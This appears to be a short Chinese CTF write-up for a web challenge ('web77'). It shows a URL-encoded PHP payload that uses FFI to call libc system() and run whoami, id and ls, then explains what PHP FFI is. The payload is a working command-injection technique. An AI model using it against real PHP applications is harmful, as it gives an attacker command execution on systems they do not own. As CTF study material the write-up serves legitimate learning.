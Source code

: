 ![web77](./image/web77.png)

根据hint用的是FFI命令执行的方法，可以看到如下代码执行了系统命令

```
# 这里%26是&的url编码，不然会被识别成参数分隔符
c=$ffi = FFI::cdef("int system(const char *command);");$a='whoami >> 1.txt%26%26id >> 1.txt%26%26ls >> 1.txt';$ffi->system($a);
```

> PHP中的FFI（Foreign Function Interface）是一个允许你在PHP代码中直接调用C语言库的扩展。这意味着你可以在PHP中直接使用C、Go、Rust等编写的共享库，而无需通过编写PHP扩展来桥接。FFI提供了一种机制，让你能够将PHP函数绑定到C库，从而在PHP中直接调用C库中的函数。
>
> FFI的主要特点包括：
>
> 1. **直接调用C库**：你可以在PHP中直接调用C语言编写的库，这为PHP开发者提供了访问大量现有C库的能力。
> 2. **性能优化**：通过FFI调用C库函数，可以提高性能，因为C库通常是经过优化的，执行速度更快。
> 3. **代码重用**：你可以在新项目中复用现有的C语言库，而无需完全用PHP重写。
> 4. **平台或硬件特定的功能**：某些特定平台或硬件的功能可能没有PHP的直接支持，但可以通过C语言调用。FFI允许开发者通过C语言编写的函数来访问这些功能。
> 5. **遗留系统集成**：FFI可以用来与遗留系统进行交互，特别是当这些系统是用不同的编程语言编写且不易更改时。
>
> 使用FFI时，通常需要以下步骤：
>
> - 定义外部函数的签名，使得PHP知道如何映射和调用C语言的函数。
> - 确保外部函数是“可见的”，这通常意味着需要将其编译为共享库（如动态链接库DLL或共享对象SO）。
> - 在PHP中加载和调用这些外部函数。
>
> FFI在PHP 7.4及以上版本中可用，并且已经成为PHP的一个内置扩展。通过FFI，PHP开发者可以更容易地利用C语言的强大功能，扩展PHP的应用范围。
